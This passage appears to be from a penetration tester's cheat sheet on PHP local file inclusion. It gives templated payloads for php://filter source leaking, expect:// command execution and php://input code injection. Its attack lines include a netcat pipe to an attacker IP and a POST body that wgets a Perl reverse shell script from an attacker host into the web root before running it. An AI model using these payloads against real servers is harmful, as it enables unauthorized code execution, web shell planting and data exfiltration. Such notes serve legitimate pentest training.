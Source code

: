   ```text
  [command]|nc [attacker IP] [port]
  ```

  * ippsec=Sense

    **php://filter**

* Attempt a PHP wrapper filter function around a PHP file location we know renders in the webpage to identify if the PHP is vulnerable to leaking PHP source code.

  ```text
  ...[file].php?[variable/page]=php://filter/convert.base64-encode/resource=[known file location that renders]
  ```

  * You shouldn't include the PHP extension in the URL because this command can only execute on php extension files of the web server because you are abusing a PHP command already.

* If successful, the base64 output of the PHP file is shown, which we can then copy to our attacker box and decode to read the plaintext version of any PHP file.

  **expect://LFI**

* Allows execution of system commands via the php expect wrapper.
* This functionality is not enabled by default.
* Attempt the PHP wrapper expect function in the URL executing a known system command \(ls\).

  ```text
  ...[file].php?[variable/page]=expect://[command]
  ```

* You will received the following error if the expect functionality is disabled on the target.

  ```text
  Warning: include(): Unable to find the wrapper "expect" ...
  ```

  **php://input**

* Your payload is sent in a POST request body.  So, usage of Burp / ZAP is best for this exploit.
* Usage of wget / curl to download a PHP script to the target is probably the easiest method.
* Modify the URL in the POST Request Header to include the input function.

  ```text
  ...?[variable/page]=php://input
  ```

* Input the PHP command in the body of the POST Request.

  ```text
  <? system('wget http://[attacker IP]/[perl reverse shell script].php -O [target file location like /var/www/shell.php');?>
  ```

* After upload of the script to the box, execute the reverse shell by simply navigating to the uploaded file location.

  ```text
  http://[target IP]/[uploaded file location]
  ```
